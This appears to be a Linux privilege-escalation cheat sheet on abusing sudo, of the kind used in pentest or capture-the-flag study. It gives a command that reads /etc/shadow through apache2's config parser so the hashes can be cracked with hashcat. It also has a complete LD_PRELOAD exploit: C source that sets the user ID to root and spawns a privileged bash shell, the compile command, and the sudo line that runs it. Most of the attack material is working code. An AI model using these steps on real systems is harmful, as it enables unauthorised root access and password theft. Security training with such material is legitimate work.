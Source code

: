 #### Run a program using sudo
```
sudo <PROGRAM>
```

#### Run a program as a specific user
```
sudo -u <USERNAME> <PROGRAM>
```

#### If a program is found check gtfobins
- https://gtfobins.github.io/

### Apache2 trick
apache2 doesn’t have any known shell escape sequences, however when parsing a given config file, it will error and print any line it doesn’t understand.
```
sudo apache2 -f /etc/shadow
#use hashcat to crack the hashes
```

### Environment variables
Programs run through sudo can inherit the environment variables from the user’s environment. In the /etc/sudoers config file, if the env_reset option is set, sudo will run programs in a new, minimal environment. The env_keep option can be used to keep certain environment variables from the user’s environment. The configured options are displayed when running sudo -l

### LD_preload
LD_PRELOAD is an environment variable which can be set to the path of a shared object (.so) file. When set, the shared object will be loaded before any others. By creating a custom shared object and creating an init() function, we can execute code as soon as the object is loaded. LD_PRELOAD will not work if the real user ID is different from the effective user ID. sudo must be configured to preserve the LD_PRELOAD environment variable using the env_keep option.

#### Create a file (preload.c)
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setresuid(0,0,0);
system("/bin/bash -p");
}
```

#### Compile it
```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

#### Run any allowed program while setting the LD_Preload environment variable
```
sudo LD_PRELOAD=/tmp/preload.so <PROGRAM
```

